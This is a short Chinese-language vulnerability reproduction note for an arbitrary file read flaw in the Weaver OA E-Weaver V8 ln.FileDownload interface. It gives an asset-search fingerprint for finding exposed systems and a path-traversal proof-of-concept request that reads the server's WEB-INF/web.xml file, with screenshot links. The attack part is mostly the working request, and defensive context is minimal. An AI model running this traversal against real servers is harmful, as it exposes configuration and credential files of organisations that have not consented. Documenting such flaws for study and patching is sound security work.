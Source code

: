 # 泛微OA E-Weaver ln.FileDownload 任意文件读取漏洞

## 漏洞描述

泛微OA ln.FileDownload 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

<a-checkbox checked>泛微OA V8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="泛微-协同办公OA"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1628479897544-b1d9da8a-4336-4371-b54f-22285b235ee9.png)

验证POC

```php
/weaver/ln.FileDownload?fpath=../ecology/WEB-INF/web.xml
```

![img](../../../.vuepress/public/img/1628479992921-2645d12d-2180-4e6f-bd87-8d1e2ff2cbb7.png)



